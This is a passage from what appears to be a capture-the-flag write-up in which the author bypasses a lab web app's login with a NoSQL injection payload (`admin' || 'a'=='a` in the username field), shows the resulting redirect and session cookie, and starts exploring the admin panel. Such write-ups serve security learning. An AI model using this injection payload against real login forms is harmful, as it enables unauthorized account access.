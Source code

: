 
And they show how they can get all the users with `' || 'a'=='a`.

I like to try payloads like this in the `username` field, since hopefully the
password field is going to be hashes before it is used. Going back to this
payload (and seeing `Content-Type` back to `application/x-www-form-
urlencoded`):

    
    
    username=admin' || 'a'=='a&password=admin
    

Results in:

    
    
    HTTP/1.1 302 Found
    Server: nginx/1.23.1
    Date: Wed, 11 Jan 2023 23:00:49 GMT
    Content-Type: text/html; charset=utf-8
    Content-Length: 56
    Connection: close
    Location: /admin
    Vary: Accept
    Set-Cookie: connect.sid=s%3AReILweHHX4bMBcDk4TiDrE3ATGvqbBnT.1x8gE%2Fp%2FM79FzOS6DQvwdmngxdyyyvT637dxIsReuZQ; Path=/; HttpOnly
    
    <p>Found. Redirecting to <a href="/admin">/admin</a></p>
    

That’s a cookie set and a redirect to `/admin`! That’s success.

Interestingly, this only works if the username exists. If I change the payload
to:

    
    
    username=0xdf' || 'a'=='a&password=admin
    

It redirects with “Wrong Credentials”.

I’ll dig into this and another NoSQL vulnerability in Beyond Root.

### Access to Mattermost

#### Enumeration

Either by grabbing the cookie from Repeater or just logging in from Firefox
with the NoSQL payload, I get into the admin panel:

![image-20230111180655873](https://0xdfimages.gitlab.io/img/image-20230111180655873.png)

That page looks relatively static. The “Search for users” button leads to
`/admin/search-users`:

![image-20230111180733256](https://0xdfimages.gitlab.io/img/image-20230111180733256.png)

If I search for “0xdf”, it finds nothing. If I search for “admin”, it offers a
download:
